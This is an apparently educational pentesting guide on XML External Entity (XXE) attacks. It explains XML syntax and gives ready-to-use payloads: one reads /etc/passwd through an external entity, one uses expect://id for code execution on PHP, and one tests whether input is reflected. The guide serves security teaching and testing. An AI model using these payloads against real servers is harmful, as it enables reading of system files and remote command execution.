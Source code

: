 # XML External Entity Attack

With this attack you can do:

* Read local files
* Denial-of-service
* Perform port-scan

Where do you find it:

* Anywhere where XML is posted.

* Common with file-uploading functionality. For files that uses XML, like: docx, pptx, gpx, pdf and xml itself.

### Background XML

XML is a markup language, like HTML. Unlike HTML is does not have any predefined tags. It is the user that create the tags in the XML object. XML is just a format for storing and transporing data. XML uses tags and subtags, just like html. Or parents, children, and syblings. So in that sense it has the same tree-structure as html.

To define a XML-section/document you need the following tag to begin:

```
<?xml version="1.0" encoding="UTF-8"?>
```

Example of valid XML:

```
<?xml version="1.0"?>
    <change-log>
        <text>Hello World</text>
    </change-log>
```

[https://www.owasp.org/index.php/XML\_External\_Entity\_\(XXE\)\_Processing](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)

### Syntax rule

* Must have root element
* Must have XML prolog

```
<?xml version="1.0" encoding="UTF-8"?>
```

* All elements must have closing tag
* Tags are case-sensitive
* XML Attributes must be quotes
* Special characters must be escaped correctly.

| &lt; | &lt; | less than |
| :--- | :--- | :--- |
| &gt; | &gt; | greater than |
| & | & | ampersand |
| ' | ' | apostrophe |
| " | " | quotation mark |

* Whitespace is perserved in XML

### Attack

So if an application receives XML to the server the attacker might be able to exploit an XXE. It could be sent as a GET, but it is more likely that it is send in a POST. An attack might look like this:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

The elemet can be whatever, it doesn't matter. The xxe is the "variable" where the content of /dev/random get stored. And by dereferencing it in the foo-tag the content gets outputted.This way an attacker might be able to read files from the local system, like boot.ini or passwd. SYSTEM means that what is to be included can be found locally on the filesystem.

In php-applications where the expect module is loaded it is possible to get RCE. It is not a very common vulnerability, but still good to know.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Even if the data is not reflected backto the website it is still possible to exfiltrate files and data from the server. The technique is similar to how you exfiltrate the cookie in a Cross-Site Scripting attack, you send it in the url.

### Test for it

* Input is reflected

```
<?xml version="1.0"?><!DOCTYPE Any [<!ENTITY xxe "testdata">]><add>&xxe;</add>
```

If "testdata" gets reflected then it is vulnerable to XXE. If it gets reflected you can try to exfiltrate the data the following way:

```
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```



### References

[https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/](https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/)

https://blog.bugcrowd.com/advice-from-a-researcher-xxe/

